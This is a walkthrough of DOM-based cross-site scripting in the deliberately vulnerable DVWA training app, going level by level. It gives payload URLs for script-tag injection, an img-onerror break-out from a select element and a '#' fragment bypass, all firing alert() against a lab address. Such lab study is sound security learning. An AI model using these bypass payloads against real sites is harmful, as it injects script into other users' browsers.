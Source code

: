 # DVWA - DOM Based Cross Site Scripting

## Low level

In this level, we can see the source code, it doesn't do any protection. So there has the XSS vulnerabilities.

![](https://i.imgur.com/Ouzgh6E.png)

Let use the following script command to attack.
As we can see the URL, we cna know the URL structure. Therefore, we can input anything we want to input after the URL.

![](https://i.imgur.com/KsQBmfX.png)

Then we input the following script command after the URL.

```text
http://192.168.1.66/DVWA-master/vulnerabilities/xss_d/?default=%3Cscript%3Ealert(%27hack%27)%3C/script%3E
```

![](https://i.imgur.com/HxAFzeo.png)

## Medium level

In this level we can know the web filter the `<script>`.

![](https://i.imgur.com/rpEXrmw.png)

So we need to use some way to bypass.
Now we see the source code of the page.

![](https://i.imgur.com/gRHlTnX.png)

As we can see if we input the following URL.

```text
http://192.168.1.66/DVWA-master/vulnerabilities/xss_d/?default=default=English</option></select><img src=1 onerror=alert(/xss/)>
```

Then the page will be bypass the `<option>` and `<select>`. And we use the onerror feature of the `<img` we can attack the web.

```javascript
<option value=''> English</option></select><img src=1 onerror=alert(/xss/)></option>
```

![](https://i.imgur.com/B8qlrgM.png)

Or we can use another way to attack.
We can use "#" to bypass. Beacuse it will be look like command in js. So we can input the following URL to attack.

```text
http://192.168.1.66/DVWA-master/vulnerabilities/xss_d/?default=English#<script>alert('xss')</script>
```

## High level

In this level we can check the source code to know. We just can use the text it list.

![](https://i.imgur.com/EjSrBxT.png)

So, we also use the same way to bypass. The text after "#" is looked comment.
Using the following URL to attack the web.

```text
http://192.168.1.66/DVWA-master/vulnerabilities/xss_d/?default=English#<script>alert('xss')</script>
```

![](https://i.imgur.com/QEmChZ2.png)

## Impossible level

We can see the source code of the page, protction handled on the client side.
The variable "lang" will encode the input, so it can't be attack.

![](https://i.imgur.com/ep4lheF.png)
